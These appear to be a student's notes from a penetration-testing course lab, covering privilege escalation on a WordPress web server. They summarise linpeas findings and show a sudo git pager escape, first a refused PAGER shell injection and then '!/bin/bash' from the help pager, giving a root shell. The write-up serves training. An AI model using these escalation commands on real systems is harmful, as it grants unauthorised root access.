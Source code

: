 
Continuing reviewing output..

Analyzing GitHub Files
```
╔══════════╣ Analyzing Github Files (limit 70)
                                                                                                                                
drwxr----- 8 root root 4096 Sep 27 14:26 /srv/www/wordpress/.git
```
- Wordpress directory is in a git repository
- Reviewing commits of Git repo may reveal sensitive info like passwords
- Directory is owned by root, but we can leverage sudo to use git commands in privileged context and search repo for sensitive files

Skipping the rest of linpeas output and summarizing findings:
- WEBSRV1 runs on Ubuntu 22.04 & not connected to internal network
- Sudoers file has entry allowing _daniela_ to run `/usr/bin/git` w/o password
- WordPress directory is Git repository 
- Obtained clear text password in database connection settings for WordPress

Three potential privilege escalation vectors
1. Abuse sudo command `/usr/bin/git`
2. Use sudo to search Git repo
3. Attempt to access other users with WordPress db password

Most promising is attempting to abuse sudo with `/usr/bin/git`

Checking _GTFOBins_.[1](https://portal.offsec.com/courses/pen-200-44065/learning/assembling-the-pieces-48786/attacking-a-public-machine-48815/a-link-to-the-past-48794#fn-local_id_119-1) > Search "git" > Scroll down to "Sudo" section
![Figure 7: Sudo abuse vector for git](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/9049294eee103992dfedc7ae44afe61d-atp_websrv_gitsudo1.png)

Attempting option a which sets an environment variable that executed when launching help menu
```hlt:1
daniela@websrv1:~$ sudo PAGER='sh -c "exec sh 0<&1"' /usr/bin/git -p help
sudo: sorry, you are not allowed to set the following environment variables: PAGER
```
- We can't set environment variable :(

Attempting option b which opens help menu in default pager
```
daniela@websrv1:~$ sudo git -p help config
```

Then enter path to shell and obtain interactive shell
```hlt:6,8
...
       •   no section or name was provided (ret=2),

       •   the config file is invalid (ret=3),

!/bin/bash

root@websrv1:/home/daniela# whoami
root
```
